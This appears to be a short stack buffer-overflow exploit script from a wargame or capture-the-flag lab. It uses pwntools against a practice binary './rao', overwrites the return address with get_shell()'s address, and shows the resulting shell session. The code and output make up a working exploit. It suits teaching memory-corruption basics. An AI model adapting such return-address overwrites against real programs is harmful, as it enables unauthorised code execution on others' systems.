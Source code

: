 from pwn import *          # Import pwntools module

p = process('./rao')       # Spawn process './rao'
get_shell = 0x4005a7       # Address of get_shell() is 0x4005a7

payload = b"A"*0x30        #|       buf      |  <= "A"*0x30
payload += b"B"*0x8        #|       SFP      |  <= "B"*0x8
payload += p64(get_shell)  #| Return address |  <= "\xa7\x05\x40\x00\x00\x00\x00\x00"

p.sendline(payload)        # Send payload to './rao'
p.interactive()            # Communicate with shell
```

```
$ python3 rao.py
[+] Starting local process './rao': pid 416
[*] Switching to interactive mode
$ id
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack) ...
```  



